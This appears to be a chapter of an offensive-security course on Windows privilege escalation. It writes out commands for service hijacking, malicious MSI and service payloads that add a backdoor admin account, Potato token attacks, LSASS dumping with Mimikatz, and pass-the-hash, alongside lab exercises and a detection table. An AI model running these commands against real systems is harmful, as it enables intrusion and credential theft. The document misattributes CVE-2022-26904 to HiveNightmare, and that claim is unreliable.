

# 🪟 Windows Privilege Escalation

> Windows privesc has more moving parts than Linux: services, scheduled tasks, registry, AlwaysInstallElevated, token impersonation, UAC, and a long history of CVEs. The good news: enumeration tools are mature and the patterns are well-documented.

---

## 1. The Mindset



The defining test on Windows: are you running with **High** or **Medium** integrity? `whoami /groups` will tell you. Many privescs go from `Medium → High` (UAC bypass), some from `High → SYSTEM`, and the rest from `low-priv user → admin`.

---

## 2. Initial Reconnaissance

```cmd
:: Identity
whoami
whoami /priv
whoami /groups
whoami /all

:: System
systeminfo
hostname
wmic os get Caption,Version,BuildNumber,OSArchitecture
wmic qfe list                          :: installed patches
:: PowerShell equivalent:
Get-HotFix | Sort-Object InstalledOn -Descending

:: Network
ipconfig /all
route print
arp -a
netstat -ano
:: PowerShell:
Get-NetTCPConnection -State Listen

:: Users / groups
net user
net localgroup administrators
net accounts                            :: password policy
```

The output of `whoami /priv` is critical. **Privileges with massive impact:**

| Privilege | Impact |
|---|---|
| `SeImpersonatePrivilege` | Token impersonation → SYSTEM (Potato attacks) |
| `SeAssignPrimaryTokenPrivilege` | Same family as above |
| `SeBackupPrivilege` / `SeRestorePrivilege` | Read/write any file → exfil SAM, replace binaries |
| `SeDebugPrivilege` | Read any process → dump LSASS |
| `SeTakeOwnershipPrivilege` | Take ownership of any object |
| `SeLoadDriverPrivilege` | Load arbitrary kernel driver → SYSTEM |
| `SeManageVolumePrivilege` | Bypasses ACLs on filesystem operations |
| `SeTcbPrivilege` | "Trusted computing base" — effectively SYSTEM |

If any of these is **enabled** on your token, you have a path to admin/SYSTEM.

---

## 3. Enumeration Tools

| Tool | Role |
|---|---|
| **WinPEAS** | Windows equivalent of LinPEAS; still gold standard |
| **PowerUp** (PowerSploit) | Classic PowerShell enumeration; `Invoke-AllChecks` |
| **PrivescCheck** (itm4n) | Modern PowerShell, AV-aware |
| **Seatbelt** | C# binary; broad host triage |
| **Watson** | Suggests applicable kernel CVEs based on `systeminfo` |
| **JAWS** | PowerShell, lightweight |
| **accesschk.exe** (Sysinternals) | Permission inspection of files/registry/services |

```powershell
# PowerUp from Empire's PowerSploit
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# PrivescCheck (preferred today)
Import-Module .\PrivescCheck.ps1
Invoke-PrivescCheck -Extended

# WinPEAS
.\winPEAS.exe quiet log
```

We ship `scripts/system/windows_enum.py` — a Python script that uses pywinrm/SMB to enumerate over the network when you have low-priv creds but no shell.

---

## 4. The Privesc Categories

### 4.1 Service misconfiguration

Windows services run as a configured account. If a service runs as SYSTEM and *you* can:

- **Modify the service's binary** → next start runs your code as SYSTEM
- **Modify the service's config** (`sc config`) → repoint it
- **Restart the service** that has a writable binary path

```cmd
:: Find services with weak permissions on the binary
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Users" *
:: PowerUp:
Get-ServiceUnquoted
Get-ModifiableServiceFile
Get-ModifiableService

:: Replace and restart
sc config <SVC> binPath= "C:\evil.exe"
net stop <SVC> && net start <SVC>
```

Use `msfvenom` to generate a service-compatible binary that adds an admin user:

```bash
msfvenom -p windows/x64/exec CMD='net user pwn Pwn2026! /add && net localgroup administrators pwn /add' -f exe-service -o evil.exe
```

### 4.2 Unquoted Service Paths

Old, still common. If a service binary path is:

```
C:\Program Files\Some Company\My Service\service.exe
```

…and the path is **unquoted** in the registry, Windows tries to resolve as:

```
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Company\My.exe
...
```

If you can write to any of those candidate dirs, drop a malicious EXE; the next service start picks it up.

```cmd
:: Find them
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
:: PowerUp: Get-ServiceUnquoted
```

### 4.3 AlwaysInstallElevated

If both registry keys are set to `1`:

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
:: Look for: AlwaysInstallElevated = 0x1
```

…then any user can install MSI packages as SYSTEM:

```bash
msfvenom -p windows/x64/exec CMD='cmd /c net user pwn Pwn2026! /add && net localgroup administrators pwn /add' -f msi -o evil.msi
```

```cmd
msiexec /quiet /qn /i evil.msi
```

### 4.4 Scheduled Tasks

```powershell
Get-ScheduledTask | Where-Object { $_.Principal.UserId -eq "SYSTEM" }
```

Look for tasks that run as SYSTEM/Admin and:
- Execute a binary or script you can write to
- Pass attacker-controllable arguments (registry-stored)
- Use writable working directories

### 4.5 PATH hijacking

If a privileged process invokes a binary by name (no full path) and a writable directory is in PATH:

```cmd
echo %PATH%
:: Check each entry's permissions:
icacls "C:\writable\dir"
```

Drop a `cmd.exe` or `program.exe` in the writable dir, wait for the privileged process to invoke it.

### 4.6 Token Impersonation — the Potatoes

If you have `SeImpersonatePrivilege` (default for service accounts: IIS apppool, MSSQL, etc.), use a Potato exploit to relay an authentication and impersonate SYSTEM:

| Variant | Where it works |
|---|---|
| **Hot Potato** | Server 2003 → Win10 1607 |
| **Rotten Potato** | Win 7+/2008+ |
| **Juicy Potato** | Win 10 < 1809, all servers ≤ 2019 (with COM CLSIDs) |
| **Sweet/Print/Generic Potato** | Modern (Windows 10 1809+, Server 2019+) |
| **GodPotato** | Modern, very reliable Win 8+ |
| **EfsPotato / SharpEfsPotato** | Modern + AD scenarios |

```cmd
GodPotato.exe -cmd "cmd /c whoami"
```

This is the canonical SYSTEM-on-IIS path.

### 4.7 Stored credentials

```powershell
# Saved credentials (DPAPI)
cmdkey /list
runas /savecred /user:domain\admin cmd

# Web browser passwords
# Edge/Chrome: %LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Login Data
# Firefox: %APPDATA%\Mozilla\Firefox\Profiles\*\logins.json + key4.db
# SharpChrome / SharpDPAPI extract them

# Files
type C:\Users\*\Desktop\*.txt 2>nul | findstr /i pass
findstr /si password *.txt *.xml *.ini *.config
findstr /si "Username\|Password" %USERPROFILE%\*.cmd *.ps1 *.bat

# Registry — autologon, SNMP communities
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
```

### 4.8 Unattended install files & GPP

Old-school but still found:

```powershell
# Unattend / sysprep files often have base64-encoded admin password
Get-ChildItem -Path C:\ -Recurse -Force -Include "Unattend.xml","sysprep.xml","autoinstall.xml" -ErrorAction SilentlyContinue
```

**Group Policy Preferences (CVE-2014-1812)** stored "encrypted" passwords with a Microsoft-published AES key. Some networks still have leftover `Groups.xml` in SYSVOL:

```cmd
findstr /S /I cpassword \\domain\sysvol\domain\policies\*.xml
```

Decrypt with `gpp-decrypt` (Kali) — the AES key is public.

### 4.9 Kernel exploits

```cmd
systeminfo > sysinfo.txt
```

Feed to **Watson** (offline) or **Windows-Exploit-Suggester**:

```bash
# python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --database 2026-x.xls --systeminfo sysinfo.txt
```

Recent juicy ones (already patched but still found in unpatched fleets):

- **CVE-2022-26904 (HiveNightmare)** — readable SAM/SYSTEM/SECURITY hives
- **CVE-2022-21882 (Win32k)** — local privesc on Win 10/11
- **CVE-2023-21752** — Backup Service Privesc
- **PrintNightmare (CVE-2021-1675/34527)** — print spooler RCE → SYSTEM

### 4.10 UAC bypass (Medium → High integrity)

If you're a local administrator account but at Medium integrity (UAC enabled), you need a UAC bypass:

```powershell
# Check integrity
whoami /groups | findstr /i "Mandatory Level"

# Common bypasses (all detection-known)
fodhelper.exe                   # registry-hijack of Open command
computerdefaults.exe            # similar
slui.exe                        # similar
SilentCleanup scheduled task    # legacy
```

The `UACMe` repo (hfiref0x) catalogs ~80 bypass techniques. Many have been patched, many still work depending on Windows version.

### 4.11 LSASS dumping

Once you reach admin, dump LSASS to get hashes/cleartext credentials:

```cmd
:: Built-in (often blocked by Defender)
"C:\Windows\System32\rundll32.exe" comsvcs.dll, MiniDump <PID> C:\Windows\Temp\lsass.dmp full

:: Alternatives that sometimes evade
:: ProcDump from Sysinternals
procdump.exe -accepteula -ma lsass.exe lsass.dmp

:: Mimikatz 
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

Mimikatz is the foundation. Modern Defender flags it instantly; obfuscated forks (e.g., DefenderCheck-clean variants), or use **pypykatz** in Python:

```bash
pypykatz lsa minidump lsass.dmp
```

---

## 5. Hash Cracking & Pass-the-Hash

Once you have NTLM hashes (from LSASS, SAM, or AD):

```bash
# John
john --format=NT --wordlist=rockyou.txt hashes.txt

# Hashcat
hashcat -m 1000 hashes.txt rockyou.txt -r rules/best64.rule
```

You can authenticate with NTLM hash directly (Pass-the-Hash) if NTLM is allowed:

```bash
nxc smb 10.0.0.5 -u administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
psexec.py administrator@10.0.0.5 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
```

---

## 6. The Workflow

A 30-minute pass on a Windows host:

1. `whoami /priv` and `whoami /groups` first.
2. If `SeImpersonatePrivilege` is enabled → drop a Potato exploit.
3. `systeminfo > x.txt` → Watson.
4. WinPEAS or PrivescCheck.
5. Look at services, scheduled tasks, AlwaysInstallElevated.
6. Search files for credentials.
7. Pivot.

---

## 7. Hands-On Lab

- **HackTheBox** — every Windows box has at least one privesc path. Boxes labeled "Easy" → "Insane" cover the spectrum.
- **TryHackMe Windows Privesc** rooms.
- **Offensive Security's PEN-200** lab is the canonical training ground for OSCP-style Windows privesc.

Specific exercises:
1. Set up a vulnerable Win10 VM. Practice each Potato variant on it.
2. Read every PrivescCheck check and understand why it's a check.
3. Drop a malicious DLL via DLL hijacking on a service.
4. Practice Mimikatz against a snapshot, restore, repeat.

---

## 8. Detection (Blue-Team View)

| Activity | Telemetry |
|---|---|
| LSASS dump | Windows Defender ASR rule "Block credential stealing"; Sysmon Event ID 10 (process access on lsass.exe) |
| Mimikatz | Behavioral / signature; Sysmon Event 1 (process create) with crafted command-line |
| Service binary modification | Sysmon Event ID 11 (file create) on service paths |
| Unusual `runas /netonly` | Security Event 4648 |
| Scheduled task creation | Security Event 4698 |
| Service install | Security Event 7045 (System log) |
| UAC bypass | Sysmon Event 1 — child of `fodhelper.exe`/`computerdefaults.exe` etc. |

The defensive baseline: Sysmon + Windows Defender ATP / EDR + LSA Protection (`RunAsPPL=1`) + Credential Guard. Modern fleets are *much* harder to privesc on than 2018 fleets.

---

## 9. Interview Questions

- A user has `SeImpersonatePrivilege` enabled. Walk to SYSTEM.
- What's an unquoted service path? How do you find them?
- What does AlwaysInstallElevated do, and why is it dangerous?
- How would you dump LSASS from a high-priv account on Win11?
- What's the difference between Pass-the-Hash and Pass-the-Ticket?
- A Windows box has integrity High but UAC enabled. You have admin SID. What do you do?

---

## 10. Tools Quick Reference

| Tool | Purpose |
|---|---|
| `winPEAS.exe` | Comprehensive enumeration |
| `PrivescCheck.ps1` | Modern, AV-quiet PowerShell enum |
| `PowerUp.ps1` | Classic PowerSploit module |
| `Seatbelt.exe` | Triage in C# |
| `Watson.exe` | Kernel CVE suggestions |
| `accesschk.exe` | Permission inspection |
| Mimikatz / pypykatz / SharpKatz | Credential extraction |
| Potato variants (Juicy/Rotten/God/Sweet) | Token impersonation |
| `Rubeus`, `Certipy` | AD-specific (next chapter) |

---

## 11. Further Reading

- HackTricks Windows privesc — book.hacktricks.wiki
- Sean Metcalf's adsecurity.org
- Microsoft "Windows Internals" (Russinovich & Solomon)
- *PowerShell for Penetration Testers*, Nikhil Mittal

---

[← Linux Privilege Escalation](linux-privesc.md) · [Active Directory →](active-directory.md)
